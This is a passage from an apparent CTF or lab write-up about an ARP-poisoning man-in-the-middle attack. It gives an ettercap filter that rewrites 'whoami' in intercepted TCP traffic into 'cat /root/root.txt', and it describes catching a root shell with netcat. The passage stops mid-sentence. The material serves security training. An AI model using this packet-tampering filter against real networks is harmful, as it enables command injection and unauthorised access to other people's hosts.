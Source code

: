     - Command: `cat /root/root.txt` 
    - Payload:

```

if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "cat /root/root.txt" );
    msg("###### ETTERFILTER: Fz3r0 substituted a HAPPY COMMAND >'whoami'< with an EVIL CAT MIAU MIAU! >'cat root.txt'<). ######\n");
}

```

-  ![image](https://user-images.githubusercontent.com/94720207/166815967-156fae60-d57e-4677-beed-5b651bd851b7.png)

    - **File read with Root Permisions:**

        - ![image](https://user-images.githubusercontent.com/94720207/166817277-6cc75c81-01e7-4c18-90fd-a6c36ba3aafd.png) 
        - ![image](https://user-images.githubusercontent.com/94720207/166817123-d6de9a28-272f-4bcd-9f3e-1f721c83a7c0.png)

- And that's all! we did it! **We gained a root shell to bob server tampering the packets inserting our payload which has been executed in bob's server, then we catched it with netcat**, we also did the same with the cat command. 

### How it worked?!

- This is just one step more after the MITM Attack using ARP Posing that we reviewed on last task, we already performed the attack sniffing and poisoning the ARP Tables of hosts, se we are "in the middle" of the transmission.

- Now we just filtered and tampered the traffic to insert a payload and let it reach Bob's server, basically, the filtering engine can match any field of the network protocols and modify whatever you want, something like this:

- Normal Behaivor:

![image](https://user-images.githubusercontent.com/94720207/166826350-8b4907be-e3d1-48a7-bea6-8e5191f2fb0c.png)

- ARP Poisoning MITM attack filtering & tampering packet: 

![image](https://user-images.githubusercontent.com/94720207/166823108-3fa75d14-4644-47e4-9696-96a3ebf9a029.png)

---

### Conclusions & Proof of Concept

- 

<span align="center"> <p align="center"> ![Fz3r0-PROOFX1](/Networking/Attacking-Cisco/ARP_Flooding+PCAP+MITM.gif) </p> </span> 

<span align="center"> <p align="center"> ![Fz3r0-PROOFX3](/Networking/Attacking-Cisco/ARP_Poisoning+MAC_Spoofing+Packet_Tampering.gif) </p> </span> 
-  **And that's how I performed a: 
